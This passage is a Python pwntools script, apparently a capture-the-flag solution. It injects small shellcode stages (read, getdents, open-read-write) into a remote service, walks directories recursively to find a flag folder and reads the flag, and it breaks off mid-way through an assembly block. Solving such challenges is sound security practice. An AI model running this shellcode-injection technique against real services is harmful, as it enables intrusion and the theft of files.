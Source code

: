 ```python

        time.sleep(0.25)

        io.send(folder)
        lines = io.recv()

    lines = lines.split('\x00')
    lines = [i.strip().replace('..', '') for i in lines]
    lines = [i for i in lines if all([j in string.ascii_letters + string.digits for j in i]) and i != '' and i != '.']

    return lines, io


def recurse(folder, io):
    if 'flag' not in folder[5:]:
        log.info('Trying: ' + folder)

        try:
            io.send(folder)
        except EOFError:
            log.info('Starting new session in recurse!')

            io.close()
            io = start()
            print(io.recv())

            io.send(read)
            io.send(getdents)

            time.sleep(0.25)

            io.send(folder)

        lines, io = clean_read(folder, io)

        for line in lines:
            recurse(folder + '/' + line, io)
    else:
        log.success('Found flag folder: ' + folder)

        io.close()
        io = start()
        print(io.recv())

        io.send(read)
        io.send(orw)

        time.sleep(0.25)

        io.send(folder)

context.terminal = ['tilix', '-e']

read = asm('''
        mov dl, 0xff
        xchg rsi, rdi
        syscall
''', arch='amd64')

getdents = asm('''
        nop
        nop
```